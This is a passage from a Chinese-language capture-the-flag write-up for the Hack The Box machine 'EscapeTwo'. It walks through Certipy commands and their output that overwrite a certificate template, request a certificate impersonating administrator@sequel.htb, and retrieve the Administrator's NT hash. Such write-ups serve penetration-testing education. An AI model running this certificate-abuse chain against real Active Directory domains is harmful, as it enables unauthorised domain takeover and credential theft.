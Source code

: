 可以看到**ca\_svc**对这个证书具有可覆盖权限👆，下面将其覆盖

```
[root@kali] /home/kali/EscapeTwo  
❯ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.XX.XX -target dc01.sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

利用 **`ca_svc`** 用户的凭证哈希，通过 **Kerberos** 请求来获得目标系统的身份验证票证

```
[root@kali] /home/kali/EscapeTwo  
❯ certipy-ad req -u ca_svc -hashes 'XXXXXXXXXXXXXXXXXXXXXXXX' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.xx.xx -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.xx.xx -dns 10.10.xx.xx -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.xx.xx'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.xx.xx[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.xx.xx[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.xx.xx'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

通过证书获取到**Administrator**的**hash**

```
[root@kali] /home/kali/EscapeTwo  
❯ certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.XX.XX'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435bxxxxxxxxxxx:7a8d4e0xxxxxxxxxxxxxxxxxxxxxxxx
```
